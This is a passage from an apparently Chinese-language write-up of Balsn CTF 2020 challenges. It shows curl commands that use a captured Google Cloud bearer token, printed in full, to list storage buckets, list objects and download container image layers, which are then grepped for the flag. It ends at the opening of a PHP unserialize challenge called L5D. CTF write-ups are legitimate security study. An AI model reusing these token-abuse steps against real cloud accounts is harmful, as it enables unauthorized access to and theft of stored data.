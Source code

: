 

阅读[文档](https://cloud.google.com/storage/docs)来了解下载存储在服务器上的数据



```shell
#查询存储分区：
curl -X GET -H "Authorization: Bearer ya29.c.KpcB5QezRL_BHhcBssfoC6rViLqbqi72L687AYtNLcDVGO2vf__MDx-Z-4X-j1Tk5iXmMZfpUvEpzwlIfl4RctiaZQa_mODL0KI5DqdyMic7E8WBGSi1GB4ViTLf-u8P155FfcteCoA_PVkWRt6phv_W_iFRsooJBLW7aRllZwP9Dx2-G1UVixDww-GUzLRbBN2CqT7HKp1AKA" \
  "https://storage.googleapis.com/storage/v1/b?project=balsn-ctf-2020-tpc"
  
#查询存储对象
curl -X GET -H "Authorization: Bearer ya29.c.KpcB5QezRL_BHhcBssfoC6rViLqbqi72L687AYtNLcDVGO2vf__MDx-Z-4X-j1Tk5iXmMZfpUvEpzwlIfl4RctiaZQa_mODL0KI5DqdyMic7E8WBGSi1GB4ViTLf-u8P155FfcteCoA_PVkWRt6phv_W_iFRsooJBLW7aRllZwP9Dx2-G1UVixDww-GUzLRbBN2CqT7HKp1AKA" \
  "https://www.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o"

#下载对象：
curl -X GET -o "/tmp/obj1" -H "Authorization: Bearer ya29.c.KpcB5QezRL_BHhcBssfoC6rViLqbqi72L687AYtNLcDVGO2vf__MDx-Z-4X-j1Tk5iXmMZfpUvEpzwlIfl4RctiaZQa_mODL0KI5DqdyMic7E8WBGSi1GB4ViTLf-u8P155FfcteCoA_PVkWRt6phv_W_iFRsooJBLW7aRllZwP9Dx2-G1UVixDww-GUzLRbBN2CqT7HKp1AKA" \
  "https://www.googleapis.com/download/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o/containers%2Fimages%2Fsha256:1c2e7c9e95b20a8dde6674890b722779c5a797d9d5968a9fa3a0ef89cd90f9b4?generation=1605158579380048&alt=media"
 
```

将所有对象下载下来后`cat * | grep -a flag`
获得flag路径：`/opt/workdir/flag-6ba72dc9ffb518f5bcd92eee.txt`

BALSN{What_permissions_does_the_service_account_need}



## L5D

题目描述

>「Taking L5D was a profound experience, one of the most important things in my life.」
>
>Try this new Unserialize-Oriented Programming System a.k.a. L5D !
>
>http://l5d.balsnctf.com:12345/index.php
>
>PHP Version: 7.0.33
>
>Author: kaibro

题目提供了源码，阅读后发现以下可能作为关键点的地方：



变量覆盖：



![image6765](https://raw.githubusercontent.com/Explorersss/photo/master/20201116142917.jpg)
